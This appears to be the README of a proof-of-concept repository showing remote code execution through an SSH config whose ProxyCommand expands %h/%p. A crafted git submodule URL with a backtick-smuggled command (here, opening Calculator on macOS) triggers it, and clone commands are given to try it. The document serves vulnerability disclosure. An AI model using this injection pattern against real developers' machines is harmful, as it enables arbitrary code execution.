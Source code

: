 ## RCE via insecure `~/.ssh/config`

Use of tokens like %h, %p in `ProxyCommand` is quite popular to use tunnels and connection proxying using SSH.

### Vulnerable config

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

Note: in my initial assessment I was under the impression that using '%h` (single quotes) would avoid this, but looks like that is still going to be vulnerable with something like:

```
url = ssh://'`open -aCalculator`'foo.example.com/bar
```

Taken from: https://man.openbsd.org/ssh_config#ProxyCommand

### What is in this reposiotry

A submodule which would exploit this vulnerability to pop a calculator on OSX.

Try it out using:

`git clone https://github.com/vin01/poc-proxycommand-vulnerable --recurse-submodules`

or

`git clone git@github.com:vin01/poc-proxycommand-vulnerable.git --recurse-submodules`

